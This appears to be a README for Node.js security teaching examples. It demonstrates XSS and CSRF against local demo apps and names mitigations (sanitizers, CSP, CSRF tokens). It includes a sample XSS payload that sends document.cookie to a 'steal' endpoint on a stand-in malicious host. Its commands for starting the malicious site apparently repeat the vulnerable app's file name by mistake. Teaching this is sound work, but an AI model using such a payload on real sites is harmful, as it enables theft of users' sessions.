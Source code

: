 # Node Examples

Start by installing all the npm dependencies:

```bash
npm install
```

## Cross-site Scripting (XSS)

Start the vulnerable website ([http://localhost:3000/](http://localhost:3000/)):

```bash
node xss/vulnerable-app.js
```

Start the malicious website ([http://localhost:3001/](http://localhost:3001/)):

```bash
node xss/vulnerable-app.js
```

The attacker connects to the vulnerable website and edit the content of the HTML.
For instance, the following XSS injection sends the cookie of the user that visit the vulnerable website to a malicious website:

```html
<!-- Sample XSS injection
<script>
    fetch("http://localhost:3001/steal?cookie=" + document.cookie)
        .then(response => response.text())
        .then(text => alert("Your secret has been stolen: " + text));
</script>
-->
```

This kind of attack can be mitigated by using an HTML sanitizer and by configuring a content security policy (CSP) in the headers of the HTTP response.
Popular [HTML sanitizers](https://www.npmjs.com/search?q=html+sanitizer) can be found on the npm registry.

## Cross-site Request Forgery (CSRF)

Start the vulnerable website ([http://localhost:3000/](http://localhost:3000/)):

```bash
node csrf/vulnerable-app.js
```

Start the malicious website ([http://localhost:3001/](http://localhost:3001/)):

```bash
node csrf/vulnerable-app.js
```

The attacker sends an email or a message to the user that contains a link to the malicious website.
If the user is connected to the vulnerable website, the request forged by the malicious website is executed by the browser on the vulnerable website with the cookie of the user.

This kind of attack can be mitigated by using hidden CSRF tokens in HTML forms.
A plugin such as [csurf](https://github.com/expressjs/csurf) can be used to generate CSRF tokens in express applications.